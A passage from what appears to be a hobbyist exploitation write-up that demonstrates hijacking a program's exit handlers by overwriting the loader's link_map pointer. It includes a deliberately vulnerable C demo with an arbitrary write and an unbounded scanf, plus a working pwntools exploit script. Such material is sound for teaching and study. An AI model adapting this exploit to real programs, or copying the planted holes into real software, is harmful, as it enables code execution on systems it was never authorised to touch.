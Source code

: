 and it is only 0x260 bytes behind from our buffer. 

to summ up:

1) find the link_map addr

2) calculate the offset from DT_FINI_ARRAY's d_un.d_ptr to the buffer 

3) overwrite the link_map pointer with the offset

4) profit..

here is the demo and codes (my first demo that i've ever created 🥹):

```C
// gcc -g demo.c -o demo -no-pie
#include <stdio.h>
#include <stdint.h>

char buf[0x256];
int main(){
        uint64_t addr;
        int size;
        printf("%p\n", stdout);
        printf("%21$lx\n");
        puts("addr?");
        scanf("%lx", &addr);
        puts("size?");
        scanf("%d", &size);
        puts("data?");
        fread((void *)addr,size,1,stdin);
        puts("reading into the buffer\n");
        scanf("%s", &buf);

        return 0;
}
```
> demo


```python3
#!/usr/bin/env python3

from pwn import *

p = gdb.debug("./demo", gdbscript="""
    b *main+236
    b *_dl_fini+499
    c
""")
leak = int(p.recvline().strip(), 16)
print(hex(leak))

ld_leak = p.recvline().strip()
ld_leak = int(ld_leak, 16)
ld_base = ld_leak - 0x38000
link_map = ld_base + 0x392e0

print(f"ld base: {hex(ld_base)}")
print(f"link_map: {hex(link_map)}")

p.sendlineafter(b"addr?\n", hex(link_map-8))
p.sendlineafter(b"size?\n", b"10")
p.sendlineafter(b"data?\n", p64(0x01) + b"\x03")
p.sendlineafter(b"buffer\n", b"a"*160 + p64(0xdeadbeef))

p.interactive()
```